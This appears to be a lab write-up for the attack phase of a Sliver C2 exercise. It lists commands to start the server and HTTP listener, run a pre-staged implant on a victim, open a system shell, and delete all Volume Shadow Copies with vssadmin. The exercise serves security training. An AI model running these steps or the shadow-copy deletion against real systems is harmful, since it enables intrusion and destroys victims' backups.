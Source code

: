  Attack

With the environment prepared and access to the victim machine confirmed, I proceeded to launch the attack phase using the Sliver C2 framework. The implant used in this phase was created during a previous lab and is already staged on the victim.


 Launch the Sliver server
```bash
sliver-server
```
[Launch Sliver](./screenshots/Launch20%sliver.png)
 
 Run HTTP listner
```bash
http
```
 On the victim machine execute the implant
```powershell
./NEW_SHAKEDOWN (#You'll have to navigate to directory, or specify path)
```

 Return to the attacker machine and check for an incoming session
```bash
sessions
```
 Interact with the live session
```bash
 use <session_id>
```
 Drop to system native command prompt 
```bash
shell(#When Prompted 'are you an adult?' type Y) 
```
 Verify active sysytem shell
```bash
whoami
```
 Run command to simulate volime Shadow Copy deletion
```bash
vssadmin delete shadows /all
```
